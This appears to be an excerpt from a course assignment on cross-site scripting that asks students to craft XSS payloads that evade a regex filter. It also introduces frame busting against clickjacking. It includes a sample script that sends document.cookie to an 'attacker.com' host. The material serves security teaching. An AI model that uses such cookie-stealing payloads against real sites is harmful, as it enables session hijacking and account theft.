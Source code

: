 You are responsible for ensuring your XSS attacks are valid HTML so that the alert should be properly interpreted and run by the web browser. Getting the SUCCESS response means your XSS attack bypassed our regex filter, but it does NOT necessarily imply that your script is executable. Again, ensure you place your XSS attack in an HTML page (or jsfiddle) and run it, to ensure an alert is generated (meaning it executes).

On a successful attack, the web page would return results like the following. Each image shows the success and fail results respectively.

Resources

Tutorial Document

The following document gives you an in-depth introduction to XSS. https://docs.google.com/document/d/1F7_axXzKVdqegWQDX6HmlwNchhsaLchWieOagWVzgh E

Additional Resources

You can learn the foundations of XSS and RegEx in following links:

About XSS:

https://en.wikipedia.org/wiki/Cross-site_scripting https://gbhackers.com/xss-cross-site-scripting/

About REGEX:

https://en.wikipedia.org/wiki/Regular_expression https://www.computerhope.com/jargon/r/regex.htm The sample_xss_attacks.txt shows some XSS samples.

Whole Script XSS

A whole script attack consists of opening and closing script tags that embeds JavaScript statements in-between. Attackers inject the malicious code into the victim’s page in order to exfiltrate the sandbox (e.g., Same Origin Policy) of web browsers. For example,

&lt;script&gt;

document.location= “http://attacker.com/saveCookie.php?cookie=” + document .cookie; &lt;/script&gt;

For more details, please read this paper:

Protection, Usability and Improvements in Reflected XSS Filters

Part 1.2: Browser Extension Framebuster – (20 points)

Background: Frame Busting

An iframe is a HTML tag that embeds another HTML document in the current web page. The origin of the embedding HTML document could be different to the one of the host webpage that a user is visiting.

Frame-busting is a technique that protects clients from clickjacking. It prevents web pages from being rendered inside a frame.

One method to block client-side clickjacking is to place the following JavaScript snippet in each web page:

&lt;script&gt;

if (top != self) top.location.href = location.href; &lt;/script&gt;

Overview
